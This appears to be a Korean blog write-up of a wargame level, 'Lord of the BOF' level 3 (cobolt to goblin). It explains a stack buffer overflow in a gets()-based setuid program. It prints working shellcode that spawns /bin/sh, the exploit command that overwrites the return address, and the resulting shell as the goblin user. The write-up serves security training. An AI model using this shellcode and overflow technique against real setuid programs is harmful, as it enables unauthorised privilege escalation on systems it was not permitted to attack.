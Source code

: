 ```yaml
---
title: LOB 3번 cobolt -> goblin Write-up
date: 2017-9-3 15:42:00
categories: LOB
tags: LOB, cobolt, goblin
---
```


## LOB 3번

    [cobolt@localhost cobolt]$ ls -l
    total 16
    -rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
    -rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c
    [cobolt@localhost cobolt]$ cat goblin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - goblin
            - small buffer + stdin
    */
    
    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }

참고를 위해 LOB 2번 문제인 cobolt의 소스도 아래에 올려두었다.

    [gremlin@localhost gremlin]$ cat cobolt.c
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

### 입력방식의 차이

두 프로그램은 문자열을 받아오는 방식에 있어서 서로 다르다. 이전의 문제에서는 `strcpy`를 통해 실행과 동시에 전달받은 문자열을 복사한 후 저장하였으나, 이번 문제에서는 프로그램 실행 후 `gets()`를 통해 문자열을 받아오는 것이다. 아래의 경우를 보며 확인해보자.

    [cobolt@localhost cobolt]$ ./goblin `python -c 'print"a"*21'`
    hello
    hello

argc값을 받아오지 않기 때문에 위처럼 python으로 전달한 값은 무시되고 `gets()`로 입력한 값인 'hello'만 받아온다. 그렇다고 쉘코드를 직접 입력해줘야하는 것은 아니다. 아래와 같이 FTZ 3번 문제에서 배운 대로 세미콜론을 사용하고, 괄호와 파이프를 적절히 조합하면 값을 전달할 수 있다.

    (python -c 'print "A"*21';cat)|./goblin

python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 `cat`명령어로 값을 넘겨주도록 했다. 세미콜론은 한줄에 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다는 점이 대조된다. 그리고 나서 앞의 결과를 파이프가 goblin에게 넘겨준다.

### 쉘코드
    
    [cobolt@localhost cobolt]$ export shell = `python -c 'print "\x31\xc0\xb0\x31\xc                                      d\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6                                      8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [cobolt@localhost cobolt]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [cobolt@localhost cobolt]$ gcc -o addr addr.c
    [cobolt@localhost cobolt]$ ./addr
    0xbfffff1c

참고로 메모리구조는 이전과 같다.

buffer(16byte)	|	SFP(4byte)	|	RET(4byte)

    [cobolt@localhost cobolt]$ ./addr
    0xbffffb34
    [cobolt@localhost cobolt]$ (python -c 'print "A"*16 + "\x90"*4 + "\x34\xfb\xff\xbf"';cat)|./goblin
    AAAAAAAAAAAAAAAA4ûÿ¿
    id
    uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
    my-pass
    euid = 503
    hackers proof

문제 소스는 비슷한데, 원리를 찾아보고 하니 생각보다 어려워진다.